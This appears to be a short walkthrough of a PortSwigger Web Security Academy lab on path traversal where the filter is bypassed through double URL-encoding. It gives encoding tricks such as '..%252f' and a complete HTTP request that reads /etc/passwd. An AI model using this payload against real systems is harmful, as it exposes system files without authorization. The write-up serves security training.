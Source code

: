 # 4 - Traversal sequences stripped with superfluous URL-decode

> This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.
>
>  The application blocks input containing [path traversal](https://portswigger.net/web-security/file-path-traversal) sequences. It then performs a URL-decode of the input before using it.
>
>  To solve the lab, retrieve the contents of the `/etc/passwd` file.

 You might be able to use various non-standard encodings, such as `..%c0%af` or `..%252f`, to bypass the input filter.

![](../../.gitbook/assets/imagen%20%28636%29.png)

```text
GET /image?filename=..%252f..%252f..%252f/etc/passwd HTTP/1.1
```



